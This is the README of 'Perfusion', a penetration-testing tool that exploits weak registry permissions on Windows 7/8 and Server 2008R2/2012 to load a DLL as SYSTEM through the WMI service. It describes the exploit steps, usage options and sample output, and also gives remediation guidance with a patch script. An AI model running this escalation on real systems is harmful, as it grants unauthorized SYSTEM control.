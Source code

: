 # Perfusion

On __Windows 7__, __Windows Server 2008R2__, __Windows 8__, and __Windows Server 2012__, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the ___Windows Performance Counters___ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

This tool is intended to help security consultants during penetration tests. This software is provided as is, and I will probably not provide any support. Though, I tested it thoroughly on three different virtual machines so there should not be any significant issue.

For more information: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="demo.gif">
</p>

## Known issues

:warning: __READ THIS BEFORE USING THIS TOOL__ :warning:

During the development phase of this tool, I observed __two different behaviors__:

1. The DLL is loaded __directly by the main process__ of the WMI service as `NT AUTHORITY\SYSTEM`, in this case the exploit works perfectly fine.
2. The DLL is loaded __by a subprocess__ of the WMI service that runs as `NT AUTHORITY\LOCAL SERVICE`. In this case, the service loads the DLL __while impersonating the client__. It turns out a privilege escalation is still possible on Windows 7 (because of another vulnerability) but the implementation cost was not worth the effort.

I am not able to explain this difference because my _trigger_ code was always the same. Anyway, in either case, __let the exploit do its job__ so that it can clean everything up when it's done. If the exploit fails, there is still a chance it will work a few minutes or hours later though.

:heavy_check_mark: Here is what you should see when the exploit works:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Here is what you should see when the exploit fails:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Build instructions

This solution is composed of two projects that need to be compiled in a specific order. Everything is pre-configured, so you just have to follow these simple instructions:

1. Open the Solution with Visual Studio 2019
2. Select `Release / x64`
3. `Build > Build Solution`

## Usage

You can check the help message using the `-h` option.

```console
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.1
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -h        Help - That's me :)
```

## Remediation / Patch

The following versions of Windows are vulnerable:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DnsCache |
| Windows Server 2008R2 | RpcEptMapper, DnsCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

As far as I know, this vulnerability will not be fixed by Microsoft, for some reason. The best solution is still to upgrade to Windows 10 / Server 2019 but if it is not a short-term option, you can still patch this issue yourself by removing the `CreateSubKey` permission for both `NT AUTHORITY\Authenticated Users` and `BUILTIN\Users` on the following registry keys:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`

I created a patch for this vulnerability in the form of a PowerShell script: [RegistryPatch.ps1](RegistryPatch.ps1). This script removes the `CreateSubKey` right on the two above-mentioned registry keys for the following identities: `NT AUTHORITY\INTERACTIVE`, `BUILTIN\Users` and/or `BUILTIN\Authenticated Users`.

- __Check if a machine is vulnerable:__

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Verbose
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
True
```

- __Apply the patch:__

```console
PS C:\Temp> . .\RegistryPatch.ps1; Invoke-RegistryPatch -Patch -Verbose 
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\Authenticated Users" has "QueryValues, CreateSubKey, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "QueryValues, CreateSubKey, Notify" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper
VERBOSE: The new ACL was applied
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "NT AUTHORITY\INTERACTIVE" has "QueryValues, CreateSubKey, EnumerateSubKeys, ReadPermissions" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: Found a vulnerable ACE: "BUILTIN\Users" has "CreateSubKey, ReadKey" rights
VERBOSE: InheritanceFlags: None
VERBOSE: IsInherited: False
VERBOSE: Registry key: HKLM\SYSTEM\CurrentControlSet\Services\DnsCache
VERBOSE: The new ACL was applied
True
```


## How does this exploit work?

Below are the exploit steps that are implemented in this tool:

1. A Process is created in the background in a suspended state (using the specified command line).
2. The embedded payload DLL is written to the current user's `Temp` folder.
3. A `Performance` key is created under `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper` and is populated with the appropriate values, including the full path of the DLL that was created at step 2.
4. The WMI class `Win32_Perf` is created and invoked to trigger the collection of _Windows Performance Counters_.
5. The DLL is loaded by the WMI service either as `NT AUTHORITY\SYSTEM` or `NT AUTHORITY\LOCAL SERVICE`.
6. If the DLL is loaded by `NT AUTHORITY\SYSTEM`, its Token is duplicated and is applied to the Process that was initially created by the user at step 1.
7. Everything is cleaned up and the main Thread of the suspended Process is resumed.

